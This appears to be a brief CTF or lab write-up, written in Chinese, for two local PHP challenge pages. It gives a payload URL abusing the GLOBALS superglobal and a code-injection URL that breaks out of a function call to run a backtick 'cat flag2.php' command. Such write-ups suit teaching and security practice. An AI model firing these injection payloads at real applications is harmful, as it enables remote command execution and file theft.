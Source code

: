 
## writeUp 

### index1.php

利用超全局变量GLOBALS
```
http://127.0.0.1/web1/index1.php?args=GLOBALS
```

### index2.php 

利用命令注入;
```
http://127.0.0.1/web1/index2.php?hello=1);echo `cat flag2.php`;//
```